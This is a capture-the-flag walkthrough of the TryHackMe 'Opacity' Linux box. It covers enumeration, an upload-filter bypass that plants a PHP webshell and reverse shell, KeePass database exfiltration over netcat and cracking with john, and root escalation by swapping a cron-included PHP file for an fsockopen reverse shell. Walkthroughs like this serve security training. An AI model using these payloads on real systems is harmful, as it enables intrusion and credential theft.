










<p align="center">
  
</p>

[Opacity](https://tryhackme.com/room/opacity) machine on [TryHackMe](https://tryhackme.com/) is boot-to-root machine requires exploiting a file upload vulnerability to gain an initial foothold via a reverse shell. Once inside, we discover a database file from a known password manager. Cracking it reveals credentials that grant SSH access as a regular user.
For privilege escalation, we identify a background process executing a script that includes another file we have permission to modify. By injecting a reverse shell into this file, we escalate to root privileges.

## Info

|------------------|----------------------------|
| **Name**         | Opacity                      |
| **OS**           | Linux                      |
| **Difficulty**   | Easy   🟢                  |

## Port scanning

We start by scanning for open ports:

```bash
┌──(root㉿kali)-[~]
└─# nmap -sC -sV opacity.thm -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-26 20:02 UTC
Nmap scan report for ip-10-10-33-216.eu-west-1.compute.internal (opacity.thm)
Host is up (0.0030s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0fee2910d98e8c53e64de3670c6ebee3 (RSA)
|   256 9542cdfc712799392d0049ad1be4cf0e (ECDSA)
|_  256 edfe9c94ca9c086ff25ca6cf4d3c8e5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:A2:67:88:5D:A1 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2025-02-26T20:02:22
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.35 seconds
```

## Initial foothold

Port 80 presents a web portal with a login form. I tried a bunch of default credentials, hoping for an easy win, but no luck this time!


Next, we move on to discovering directories on the web

```bash
┌──(root㉿kali)-[~]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://opacity.thm/FUZZ -c -s

css
cloud
server-status

```

We came across 'cloud,' which definitely looks promising. Visiting found path reveals the following file upload page



On this page, we find an option to upload an image from an external source. To investigate its behavior, we set up a listener and input our IP as the external URL with a fake image path e.g `http://10.10.95.60:8080/test.jpg` and set a listener on our attacker machine to see what we get:

```bash
┌──(root㉿kali)-[~]
└─# nc -nvlp 8080
listening on [any] 8080 ...
connect to [10.10.95.60] from (UNKNOWN) [10.10.17.15] 43590
GET /test.jpg HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.10.95.60:8080
Connection: Keep-Alive
```

We notice that the server runs a wget command against our listener and hangs until we terminate it. Gathering more information, we confirm that the server is running Apache.

```bash
┌──(root㉿kali)-[~]
└─# whatweb http://opacity.thm/cloud/
http://opacity.thm/cloud/ [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.17.15], Title[Opacity Storage]
```

Next, we crete a fake .jpg file and trying to upload works even if the signature is not correct:

```bash
┌──(root㉿kali)-[~]
└─# echo "test" > test.jpg

┌──(root㉿kali)-[~]
└─# python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```


And we discover that files are uploaded as is to the `/cloud/images` path



Trying the same approach with a simple PHP shell doesn’t work, the page just reloads. This suggests there may be some file extension filtering in place.

```bash
┌──(root㉿kali)-[~]
└─# echo "<?php system(\$_GET['cmd']) ?>" > shell.php
```

Since the server accepts .jpg files, let's try bypassing the restriction by using the same PHP shell path but tricking the server into thinking it's a .jpg by appending `#`.

```bash
  http://10.10.95.60:8080/shell.php#.jpg
```


When sending we get a hit on our server and php file is uploaded



However, accessing `/cloud/images/shell.php?cmd=id` doesn’t produce any results.

Let's try uploading a reverse shell and listening for a connection. This will help us determine if the server executes the fetched file (e.g., via `exec` or a similar function) that is being fetched via `wget`.

```bash
┌──(root㉿kali)-[~]
└─# cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

Set IP and PORT to our attacking machine IP and port to 5555:

```bash
$ip = '10.10.95.60';
$port = 5555;  
```

Then repeating the step by using `http://10.10.95.60:8080/shell.php#.jpg` on upload field we successfully got a reverse shell as `www-data`:



```bash
$ whoami
www-data
$ python3 -c "import pty;pty.spawn('/bin/bash')"       
www-data@opacity:/$ export TERM=xterm
export TERM=xterm
www-data@opacity:/$ 
```

But being `www-data` we cannot read the flag



After inspecing filesystem for some time we found `dataset.kdbx` under `/opt` directory, which is a keepass database file:



We download it by using `nc`. We start a listener on our attacking machine

```bash
nc -nvlp 6666 > dataset.kdbx
```

And send file from victim as follows:

```bash
nc 10.10.123.25 6666 < dataset.kdbx
```



Having the file on our attacking machine, we can now attempt to brute force it using `john`, but first we need to convert it to correct format for cracking with `keepass2john`:

```bash
┌──(root㉿kali)-[~/Desktop]
└─# file dataset.kdbx 
dataset.kdbx: Keepass password database 2.x KDBX
                                                                   
┌──(root㉿kali)-[~/Desktop]
└─# /usr/sbin/keepass2john dataset.kdbx > hash
                                                                   
┌──(root㉿kali)-[~/Desktop]
└─# cat hash 
dataset:$keepass$*2*100000*0*211[REDACTED]36b4
```

Now we can proceed with `john` for trying to crack it. We'll use `rockyou` wordlist:

```bash
┌──(root㉿kali)-[~/Desktop]
└─# /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt hash                      
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>        (dataset)     
1g 0:00:00:18 DONE (2025-02-27 22:51) 0.05494g/s 47.91p/s 47.91c/s 47.91C/s chichi..walter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

We successfully obtained its password and can proceed to opening `kdbx` file using KeePassXC.
Inside we found a password for `sysadmin` user.



Let's verify if that's a valid one using it for logging in via SSH with `sysadmin`

```bash
┌──(root㉿kali)-[~/Desktop]
└─# ssh sysadmin@opacity.thm 

sysadmin@opacity:~$ cat local.txt 
6******************************2

```

Seems it is! And we got flag for local user!

## Privilege escalation

In the `sysadmin` home directory, we find a `scripts` folder containing a `lib` folder and a `script.php` file. While we have full permissions over the `lib` folder, we don’t have access to modify `script.php`

```bash
sysadmin@opacity:~/scripts$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22  2023 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

Inspecting file `script.php`, it shows it does some backup but it also uses `require_once` on a file called `backup.inc.php` under `lib` folder:

```php
sysadmin@opacity:~/scripts$ cat script.php 
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

Unfortunately `sysadmin` is not owner of `backup.inc.php`

```bash
sysadmin@opacity:~/scripts/lib$ ls -la
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
```

But as we previously saw, we had all permissions on `lib` folder. This allows us to remove or create new files on it, so we can remove `backup.inc.php` and create a new one.
Knowing that, we'll create a file which executes a php reverse shell to our attacking machine:

```php
sysadmin@opacity:~/scripts/lib$ rm -rf backup.inc.php 
sysadmin@opacity:~/scripts/lib$ echo "<?php \$sock=fsockopen(\"10.10.203.108\",5555);exec(\"/bin/sh -i <&3 >&3 2>&3\"); ?>" > backup.inc.php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php 
<?php $sock=fsockopen("10.10.203.108",5555);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

Now, we just need to confirm that `script.php` file gets executed somehow so our file gets executed as well. Checking `sysadmin`'s crontab reveals nothing, so let's dig deeper. Using `pspy` we can check for any processes running under a different user:

***Attacker***

```bash
┌──(root㉿kali)-[~/Desktop]
└─# wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
...
python -m http.server 8080
```

***Victim***

```bash
cd /tmp && wget http://10.10.203.108:8080/pspy64 && chmod +x pspy64
./pspy64
```

Yikes! We found the missing piece, `script.php` is being executed by `root`!



Finding means that our changed `backup.inc.php` file should be already being executed. So all indicates that if we run a listener on port 5555 we should be getting root reverse shell due to file being run as `root` user and be able to get the flag.

Since `script.php` runs as `root`, our modified `backup.inc.php` should already be executing. Everything points to the fact that if we set up a listener on port 5555, we should receive a root reverse shell which will grant us access as `root` and hence to proof flag

*Note: After inspecting pspy output for some time it looks like runs are being made every 5 minutes. So shell would pop after that time passes by.*

```bash
┌──(root㉿kali)-[~/Desktop]
└─# nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.203.108] from (UNKNOWN) [10.10.92.72] 43060
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/proof.txt
a******************************e
```
